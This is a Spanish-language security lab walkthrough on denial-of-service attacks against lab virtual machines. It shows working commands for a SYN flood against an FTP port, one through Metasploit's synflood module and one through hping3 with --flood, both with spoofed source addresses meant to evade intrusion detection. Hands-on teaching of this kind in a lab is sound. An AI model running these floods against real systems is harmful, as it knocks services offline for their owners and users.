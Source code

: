 # Ataques DoS.
      

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasplotaible3-Win2k8***


Los ataques ***DoS*** son los más sencillos de realizar. El atacante intenta saturar a la víctima, y si lo consigue, ésta no podrá realizar su cometido habitual. 

También sabemos que los ataques distribuidos DoS, o ***DDoS***, son prácticamente imposibles de evitar. La única forma de defendernos de ellos es que la electrónica de red o el perimetral los detecte o mitigue, ya que los sistemas operativos actuales no pueden defenderse por ellos mismos.

Estos ataques se caracterizan por consumir el ancho de banda disponible en la red de la víctima o la CPU de los dispositivos. Pertenecen al grupo de ***Ataques Volumétricos***. Los ataques más habituales son ***Inundación UDP***, ***Inundación ICMP***, ***Inundación SYN***, ***Fragmentación***

## Ejercicio 1: Lanzar un ataque de DoS con Metasploit.

En la máquina ***Metasploitable3-Win2k8***, iniciamos sesión y abrimos el ***Administrador de Tareas***. Podemos comprobar como la carga de CPU/RAM de la máquina es normal.
  
![CPU/RAM](../img/lab-06-I/202210031732.png)

El uso de la red por parte de la máquina está al mínimo.

![RED](../img/lab-06-I/202210031734.png)

Esta máquina tiene varios servicios, entre ellos un servidor ***FTP***, un servidor ***web*** y ***mySQL***.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando.
```
nmap 192.168.20.14
```

Vamos a atacar al servidor FTP de la víctima por medio de un ataque de inundación SYN, para denegar el servicio FTP.
```
sudo msfconsole
```

Configuramos el ataque de la siguiente forma.
```
use auxiliary/dos/tcp/synflood
```

```
set RHOST 192.168.20.14
```

```
set RPORT 21
```

Para intentar engañar a los IDS, usamos el parámetro ***SHOST*** donde ponemos la IP (falsa) que está realizando el ataque.
```
set SHOST 192.168.20.100
```

Comprobamos que la configuración es correcta.
```
show options
```

![TCP SYN](../img/lab-06-I/202210031742.png)

Lanzamos el ataque.
```
run
```

Si observamos, en la víctima, apenas se ha incrementado la carga de CPU de la víctima un 5%-9%. ***Metasploit*** no es especialmente efectivo y necesitaría realizarse un ***DDoS*** para saturar a la víctima.

En la máquina ***Kali***, detenemos el ataque pulsando ***CTRL+C***.


## Ejercicio 2: Lanzar un ataque de DoS con Hping3.

Por el contrario, ***Hping3*** s mucho más eficiente. 

En la máquina ***Kali*** ejecutamos en la terminal el ataque equivalente, pero usando ***Hping3***.
```
sudo hping3 -S 192.168.20.14 -a 192.168.20.100 -p 21 --flood
```

Como podrás observar, el ataque consigue subir la ***CPU*** de la víctima en torno al 40%.

Podrías intentar abrir otras terminales y realizar el mismo ataque, obteniendo un incremento de uso de CPU de un 5% por cada terminal.

Al igual que el experimento anterior, para garantizar una denegación de servicio efectiva, independientemente del escalado vertical que pudiera llegar a tener la víctima, sería necesario recurrir a un ***DDoS***.

Finaliza los ataques cerrando las terminales.

En este enlace: https://www.redeszone.net/tutoriales/seguridad/hping3-manipular-paquetes-tcp-ip-ataques/ tienes un tutorial sobre la herramienta que te interesa aprender.

***FIN DEL LABORATORIO***